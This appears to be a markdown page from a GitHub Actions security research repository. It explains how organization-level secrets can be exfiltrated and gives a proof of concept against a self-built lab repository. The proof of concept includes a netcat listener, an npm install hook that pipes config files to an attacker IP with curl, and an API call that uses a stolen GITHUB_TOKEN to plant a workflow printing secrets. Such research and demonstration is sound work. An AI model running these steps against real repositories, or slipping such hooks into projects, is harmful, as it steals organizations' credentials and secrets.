 # Exfiltration of organization level secrets

It is possible to exfiltrate [organization level secrets](https://docs.github.com/en/actions/security-guides/encrypted-secrets#creating-encrypted-secrets-for-an-organization) even if they are not referenced in the vulnerable repository. However, the access to the secrets should be granted to either all organization repositories (which is the default) or a selected set of repositories including the vulnerable repository.

One way to exfiltrate organization level secrets is to exfiltrate the `GITHUB_TOKEN` and create a new workflow which would reference and print the secrets. This workflow can be created in any branch of the repository. Finally, to actually exfiltrate the secrets one triggers the workflow.

Only organization admins can view the list of organization level secrets. However, the attacker doesn't need to view the list. They can exfiltrate all secrets accessible to the workflow, including organization level secrets, at once by leveraging the [`secrets` context](https://docs.github.com/en/actions/learn-github-actions/contexts#secrets-context) as proposed by Alex Ilgayev in the "Extracting Repository And Organizational Secrets" section of [How We Discovered Vulnerabilities in CI/CD Pipelines of Popular Open-Source Projects](https://cycode.com/blog/github-actions-vulnerabilities/).

## Example

### Environment setup

Run [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) as the victim to create the `MYSECRET` organization level secret with the value of `1234567890` and the `org-level-secrets` repository with the vulnerable workflow.

> You will need [gh](https://github.com/cli/cli) installed to execute the [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) script

### Proof of concept

Perform the following steps as the attacker.

1. Open a publicly accessible port on a remote server (e.g. `nc -vlnk 0.0.0.0 1337`).
1. Fork the `org-level-secrets` repository.
1. Add the `scripts.install` key to the `package.json` file with the `find . -type f -name config | xargs cat | curl --data @- http://{IP}:1337` value replacing the `{IP}` placeholder with the public IP address of the remote server.
1. Open a pull request from the fork to the `org-level-secrets` repository.
1. Wait until the remote server recieves the request and base64-decode the `GITHUB_TOKEN` from it.
1. Run the following command replacing `{GITHUB_TOKEN}` and `{owner}` placeholders with the obtained `GITHUB_TOKEN` and the organization name respectively to create a new workflow.
    ```bash
    curl -X PUT -H "Accept: application/vnd.github.v3+json" -H "Authorization: Bearer {GITHUB_TOKEN}" https://api.github.com/repos/{owner}/org-level-secrets/contents/.github/workflows/exfiltrate.yml -d '{"message":"hey","content":"b246CiAgcHVsbF9yZXF1ZXN0X3RhcmdldDoKam9iczoKICBleGZpbHRyYXRlOgogICAgcnVucy1vbjogdWJ1bnR1LWxhdGVzdAogICAgc3RlcHM6CiAgICAgIC0gbmFtZTogZXhmaWx0cmF0ZQogICAgICAgIHJ1bjogfAogICAgICAgICAgZWNobyAiJHt7IHNlY3JldHMuTVlTRUNSRVQgfX0iIHwgYmFzZTY0IHwgYmFzZTY0"}'
    ```
1. Open another pull request from the to the `org-level-secrets` repository to trigger the workflow.
1. The double-base64-encoded `MYSECRET` secret should appear in workflow run logs.

